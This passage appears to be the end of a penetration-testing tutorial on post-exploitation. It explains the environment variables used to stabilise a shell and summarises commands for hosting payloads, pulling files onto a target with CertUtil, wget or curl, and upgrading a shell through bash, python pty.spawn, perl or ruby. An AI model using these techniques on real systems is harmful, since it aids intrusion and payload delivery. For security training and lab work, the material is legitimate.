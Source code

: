 
### 📘 Why Set These Variables?

| Variable | Purpose                                                        | Effect                                                   |
| -------- | -------------------------------------------------------------- | -------------------------------------------------------- |
| `PATH`   | Defines directories where executable binaries are searched for | Without it, commands like `ls` or `wget` may fail        |
| `TERM`   | Defines terminal type                                          | Enables proper text formatting, colors, and key bindings |
| `SHELL`  | Defines the user’s default shell                               | Ensures commands like `su` or subshells behave correctly |

> 💡 Setting these variables **stabilizes your session** and allows you to use utilities seamlessly.

---

### ✅ Verify Shell Stability

After exporting the variables, test:

```bash
ls -alps
wget
clear
history
```

If these commands now behave normally, your shell is successfully upgraded and stabilized.

---

## 🧩 Summary

| Task                  | Tool/Command                                                  | Description                                   |
| --------------------- | ------------------------------------------------------------- | --------------------------------------------- |
| Host files            | `python3 -m http.server 8080`                                 | Quick web server to share payloads            |
| Windows file transfer | `CertUtil -urlcache -f <URL>`                                 | Download files using Windows built-in utility |
| Linux file transfer   | `wget` or `curl`                                              | Fetch remote files to target system           |
| Upgrade shell         | `/bin/bash -i`, `python -c 'pty.spawn'`, `perl -e`, `ruby -e` | Convert basic shell into interactive          |
| Fix environment       | `export PATH`, `TERM`, `SHELL`                                | Ensure usability of common commands           |


